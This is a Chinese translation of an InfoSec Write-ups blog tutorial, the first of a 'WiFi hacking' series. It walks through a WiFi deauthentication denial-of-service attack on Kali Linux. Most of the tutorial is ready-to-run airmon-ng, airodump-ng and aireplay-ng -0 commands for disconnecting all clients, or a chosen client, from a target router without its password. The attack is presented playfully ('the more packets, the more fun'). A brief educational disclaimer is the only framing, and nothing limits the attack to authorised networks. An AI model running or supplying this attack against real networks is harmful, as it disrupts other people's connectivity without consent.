# Wifi 路由器上的 DoS——Wifi 黑客#1

> 原文：<https://infosecwriteups.com/wifi-hacking-1-deauthenticating-users-6f8ed6a11d73?source=collection_archive---------1----------------------->

T 这是 Wifi 黑客系列的第一篇。在本文中，我们将讨论如何执行 DoS(拒绝服务)攻击，这将阻止用户使用 Kali Linux ~ Aircrack 的内置工具连接到 Wifi 网络。但是…但是…但是，猜猜最精彩的部分！！！

这个完整过程最好的部分是……我们甚至没有连接到无线网络，而且……此外，我们甚至不需要知道无线网络的密码。现在，这可能会让你着迷并引起你的注意，所以不再多说，让我们开始吧！！！

> *一旦你学会了，你就会爱上它*


照片由 [Jadon Kelly](https://unsplash.com/@jado_tornado?utm_source=medium&utm_medium=referral) 在 [Unsplash](https://unsplash.com/?utm_source=medium&utm_medium=referral) 拍摄

WiFi 黑客是测试安全措施和识别网络漏洞的好方法。在本帖中，我们将介绍取消用户身份验证的整个过程，首先扫描网络中的可用接入点，然后利用 aircrack-ng 的强大功能实施攻击。

> *免责声明:本文仅用于教育和娱乐目的，不得恶意引用！！！*

# 先决条件

你需要:

*   预先安装的 Kali 机器
*   支持监控模式的无线 USB Wifi 适配器。如果你没有，你可以使用下面的 USB 适配器:

[](https://amzn.to/3et1C5q) [## 950 Mbps USB WiFi 适配器，无线网络接收器加密狗，适用于台式笔记本电脑，(支持- Windows…

### 适用于台式机笔记本电脑的 950 Mbps USB WiFi 适配器、无线网络接收器加密狗，(支持 Windows XP/7/8/10 和 MAC OS)不…

amzn.to](https://amzn.to/3et1C5q) 

> *如果你想关闭使用 5GHz 的无线网络，你需要一个支持 5GHz 的适配器*

*   使用以下命令更新 Kali Linux

```
sudo apt update && sudo apt upgrade
```

*   最后最重要的是，你学习的热情。

一旦先决条件就绪，请进一步阅读。

# 我们到底要做什么？

为了保持简洁，首先，我们将扫描附近可用的 wifi 网络，并收集其 BSSID 和其他信息，如信道和安全类型。

然后，我们将开始向无线接入点发送数据包，这将解除所有用户(或特定用户)的身份验证。

就这样，现在让我们进入完整的流程。

# 逐步过程

1.  首先，我们从启动 Kali Linux 开始。

现在，如果您在虚拟机中使用 Kali Linux，请确保无线 USB wifi 适配器已连接到虚拟机，否则请执行以下操作:



打开播放器->选择可移动设备->选择外部 Wifi 卡->连接到主机

2.现在，在终端上点击鼠标右键，选择“垂直分割”,将它一分为三


3.找到您的无线适配器的名称(大多数情况下是 wlan0)

```
ifconfig
```



> *记下您的接口名称(在我的例子中是 wlan0)*

4.下一步是将您的适配器置于监控模式~键入以下命令。

```
airmon-ng start <interface name>
```



检查您的无线适配器是否处于监控模式

```
iwconfig
```



5.现在扫描附近的网络以获得它们的 BSSID 和广播频道

```
airodump-ng -i <interface name>
```



6.现在复制目标路由器的 BSSID(Ctrl+Shift+C)，在杀死扫描进程(Ctrl+C)之后。

另外，记下目标路由器广播的信道。

7.现在，键入以下命令开始发送身份验证数据包

```
aireplay-ng -0 <number of packets> -a <bssid of target network> -c <target client> <interface name>
```

这里，

<number of="" packets="">—输入要发送的数据包数量，或输入“0”连续发送数据包</number>

> *人数越多，乐趣越多*

<bssid of="" target="" network="">—粘贴刚刚复制的路由器 BSSID</bssid>

<target client="">(可选)—输入您希望断开连接的特定用户的 MAC 地址，跳过以取消所有已连接客户端的身份验证</target>

<interface name="">—您的适配器名称</interface>



现在你可能会得到这个错误，如果没有，你足够幸运…😶

这意味着目标网络在信道 1 上广播(在我的例子中)，但是接口在信道 3 上。

8.所以现在您需要配置通道。

使用 *Ctrl+C.* 停止网络扫描

键入以下命令:

```
airodump-ng -c <broadcasting channel of router> -i  <interface name>
```

这里，

<broadcasting channel="" of="" router="">—路由器正在广播的信道(在我的例子中是 1)。</broadcasting>

<interface name="">—您的适配器名称</interface>



现在再次键入命令“未经身份验证”:

```
aireplay-ng -0 <number of packets> -a <bssid of target network> -c <target client> <interface name>
```



现在身份验证数据包被发送到接入点，所有连接到接入点的用户都将被断开。



就这样，攻击开始了。在数据包达到指定的限制(在本例中为 1000 个)或您停止发送数据包(Ctrl+C 或 Ctrl+Z)之前，任何用户都无法连接到路由器😉。

这是 Wifi 黑客系列的第一篇文章，关注并订阅，每当我发布一篇文章就可以获得更新！！！

## 来自 Infosec 的报道:Infosec 每天都有很多内容，很难跟上。[加入我们的每周简讯](https://weekly.infosecwriteups.com/)以 5 篇文章、4 个线程、3 个视频、2 个 GitHub Repos 和工具以及 1 个工作提醒的形式免费获取所有最新的 Infosec 趋势！